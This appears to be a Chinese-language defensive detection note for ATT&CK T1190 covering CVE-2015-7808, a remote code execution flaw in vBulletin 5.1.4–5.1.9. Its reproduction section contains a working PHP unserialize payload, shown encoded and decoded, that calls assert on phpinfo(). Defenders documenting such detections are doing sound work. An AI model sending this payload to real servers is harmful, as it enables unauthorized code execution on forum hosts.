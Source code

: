 # T1190-vBulletin5.X-RCE检测

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使对手获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## CVE-2015-7808漏洞

vBulletin是用PHP编写的可定制的论坛程序套件。

vBulletin 5.1.4-5.1.9版本，某些内部API处理Ajax请求时，未验证其来源，这可使攻击者无需身份验证调用继承自vB_Api及/core/vb/api/下任意类的任意公共方法，其中decodeArguments()方法内的unserialize()函数存在安全漏洞，可使攻击者在‘$args’变量中注入精心构造的任意对象，远程执行php代码，获取服务器权限。

### 影响版本

VBulletin 5.1.4 - 5.1.9

### 测试案例

请参考：

vBulletin5.X前台RCE分析（CVE-2015-7808）

<https://xz.aliyun.com/t/6497>

vBulletin 5 全版本远程代码执行漏洞分析

<https://www.anquanke.com/post/id/82870>

### 检测日志

访问日志

### 测试复现

```yml
GET /vBulletin/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A17%3A%22vB_Database_MySQL%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A9%3A%22phpinfo%28%29%22%3B%7D HTTP/1.1
Host: 192.168.0.106
Cookie: XDEBUG_SESSION=PHPSTORM
Connection: close
```

解码后：

```yml
GET /vBulletin/ajax/api/hook/decodeArguments?arguments=O:12:"vB_dB_Result":2:{s:5:"*db";O:17:"vB_Database_MySQL":1:{s:9:"functions";a:1:{s:11:"free_result";s:6:"assert";}}s:12:"*recordset";s:9:"phpinfo()";} HTTP/1.1
```
